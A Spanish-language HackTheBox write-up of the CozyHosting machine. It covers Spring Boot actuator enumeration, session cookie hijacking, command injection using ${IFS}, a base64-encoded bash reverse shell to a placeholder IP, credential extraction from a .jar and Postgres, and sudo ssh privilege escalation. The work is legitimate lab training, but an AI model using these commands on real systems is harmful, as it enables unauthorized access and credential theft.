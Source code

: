 ```yaml
---
layout: post
title: CozyHosting
parent: HackTheBox
---
```

# CozyHosting
{: .no_toc }

## Contenidos
{: .no_toc .text-delta}

1. TOC
{:toc}

---
{:.lead}

# Fase de reconocimiento:

Comenzaremos analizando el TTL de la maquina:

> No olvidemos, el TTL de un sistema Linux es <=64

Acto seguido, realizaremos un reconocimiento de **puertos abiertos** del servidor:
![](/assets/img/HTB_CozyHosting/C1.png)

Como podemos apreciar, al analizar el puerto **80**, vemos que emplea un redirect a un dominio: "cozyhosting.htb", por lo que lo agregaremos al **/etc/hosts**

Ahora, si introducimos la direccion IP, dentro de nuestro navegador, veremos lo siguiente:

![](/assets/img/HTB_CozyHosting/C2.png)

Pero, si nos ponemos a jugar con la pagina... Veremos que a veces nos arroja un error filtrando el servicio que se usa detras:

![](/assets/img/HTB_CozyHosting/C3.png)

Por lo que si buscamos por la web, veremos que se trata de **SPRING BOOT**, asi que buscamos en nuestra web de confianza [HackTricks](https://book.hacktricks.xyz/)

Si analizamos, vemos que tenemos habilitada la direccion: **/actuator/env**
![](/assets/img/HTB_CozyHosting/C4.png)

Por lo que tendriamos que ver una forma de listar los directorios disponibles, si analizamos unas de las herramientas usadas para pentesting: **"SecLists"**, encontraremos un diccionario para el framework Spring:
![](/assets/img/HTB_CozyHosting/C5.png)

Como podemos apreciar, tenemos la ruta interesante de: **/sessions**, por lo que listaremos que nos retorna:
![](/assets/img/HTB_CozyHosting/C6.png)
Podemos apreciar lo que parecen ser cookies, asi que efectuaremos un Cookie Hijacking para entrar como administrador, sin proporcionar una password.
![](/assets/img/HTB_CozyHosting/C7.png)
Como podemos apreciar, hemos efectuado un login bypass, por lo que ahora nos queda ver la forma de meternos al servidor.

Podemos ver que usa un servicio que "agrega" un host:
![](/assets/img/HTB_CozyHosting/C8.png)

# Intrusion

Vemos que si forzamos un error, en este caso, dejando el input del **username** vacio, genera un error en el servicio que se usa haciendo un leak de la herramienta, por lo que tendremos que ver la forma de ejecutar un comando.
![](/assets/img/HTB_CozyHosting/C9.png)

Entonces, trataremos de ejecutar un:

```bash
sleep 5
```
![](/assets/img/HTB_CozyHosting/C10.png)

Por lo que efectivamente podemos comprobar que se ejecuta el comando.

## Entendiendo el ${IFS}
Si podemos apreciar, no usamos un "+", para poder ejecutar el comando, sino un: **"${IFS}"**, esto es debido a que es una variable que bash interpreta como un **Salto de linea**, **Internal Field Separator** en ingles:
![](/assets/img/HTB_CozyHosting/C11.png)

Continuando con la intrusion, nos quedaria ejecutar una reverse shell a traves de bash, yo usare un **base64 decode**:
![](/assets/img/HTB_CozyHosting/C12.png)
```bash
echo "bash -c 'bash -i >&/dev/tcp/TU-IP/PUERTO 0>&1'" | base64
```
Por lo que queda ejecutar nuestro comando:
![](/assets/img/HTB_CozyHosting/C13.png)

# Ingresando al servidor
Una vez dentro, no olvidemos hacer un tratamiento de la TTY, para evitar incomodidades:

```bash/
python3 'import pty;pty.spawn("/bin/bash")'
```
Para luego hacer un **CTL+Z** e introducir:
```bash
stty raw -echo;fg
  reset xterm
```
![](/assets/img/HTB_CozyHosting/C14.png)

Si listamos, encontraremos un **.jar**, en pocas palabras un archivo de Java, que pueda a lo mejor contener credenciales:
Lo pasamos a nuestra maquina, para descomprimirlo:
![](/assets/img/HTB_CozyHosting/C15.png)

> Si queremos filtrar todo de forma recursiva, nos podemos apoyar en el comando: grep -r "busqueda"

![](/assets/img/HTB_CozyHosting/C16.png)
Encontramos credenciales de lo que parece ser una base de datos en **Postgres**, por lo que queda probarla.

Una vez probada, podemos ver que existen las siguientes tablas:
![](/assets/img/HTB_CozyHosting/C17.png)
Y buscaremos credenciales que nos sean utiles para subir nuestros privilegios
![](/assets/img/HTB_CozyHosting/C18.png)
Una vez descubierta la password, buscaremos usuarios existentes para conectarnos, esto lo veremos leyendo el **/etc/passwd**:
![](/assets/img/HTB_CozyHosting/C19.png)

# PRIVESC
Como podemos apreciar, tenemos el usuario y la password... Asi que nos conectaremos por el puerto 22-SSH
```bash
ssh josh@IPdelServidor
```
Una vez dentro, listaremos los permisos y vemos que poseemos permisos de sudoers para el comando **ssh**, por lo que visitaremos la web de confianza [GTFObins](https://gtfobins.github.io/gtfobins/ssh/#sudo)
Y nos recomendara, el siguiente comando:
```bash
sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
```
![](/assets/img/HTB_CozyHosting/C20.png)
# FIN
